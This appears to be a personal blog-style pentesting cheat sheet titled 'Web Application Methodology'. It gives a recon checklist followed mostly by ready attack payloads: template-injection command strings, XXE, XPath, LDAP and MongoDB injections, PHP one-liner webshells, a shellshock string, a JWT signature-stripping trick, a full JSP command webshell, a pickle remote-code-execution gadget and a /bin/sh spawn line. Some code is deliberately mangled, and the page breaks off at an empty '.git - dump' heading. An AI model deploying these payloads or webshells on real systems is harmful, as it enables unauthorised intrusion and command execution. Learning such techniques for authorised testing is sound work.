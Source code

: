 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<style>
  .fieldset
  {
      border:2px solid black;
      -moz-border-radius:8px;
      -webkit-border-radius:8px;	
      border-radius:8px;	
      font-size:12px;
      padding:10px;
      width:250px;
  }
  </style>

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt/sitemap.xml</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }} or TPLMAP.py</li>
    <li>CSRF - <.img src="https://vulnerable-website/email/change?email=pwned@evil-user.net"> or tool=xsrfprobe</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
      <li>objectinputstream- exploitation of a call to readObject - rO0 in cookie</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>
<code>?php system($_GET["cmd"]);?></code>
<code>?php print exec('command'); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>

<h2>serialization</h2>
<h4>Python</h4>
<p>Pickle</p>

<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    asdmport cPickle
    asdmport os
    
    asdclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
    
  </code></pre>
</fieldset>

<li>run script</li>
<li>base64 encode result</li>
<li>replace server thingy</li>


<h2>xml</h2>
<p>https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md</p>



<h2>ECB Vuln</h2>

<fieldset>
  
  <legend>ECB ruby to decode</legend>
  <pre><code>
% irb
> require 'base64' ; require 'uri'
 => true
> Base64.decode64(URI.decode("OR9hcp18%2BC1bChK10NlRRg%3d%3d"))
 => "9\x1Far\x9D|\xF8-[\n\x12\xB5\xD0\xD9QF"
    

</fieldset>

<h2>lfi/rfi</h2>
<p>https://raghavtalwar4.gitbook.io/privilege-escalation-cheatsheet/owasp-top-10-and-more/lfi-rfi-cheatsheet</p>
g0tmilk
asd__import__('os').system('/bin/sh')asd  


<h2>.git - dump</h2>
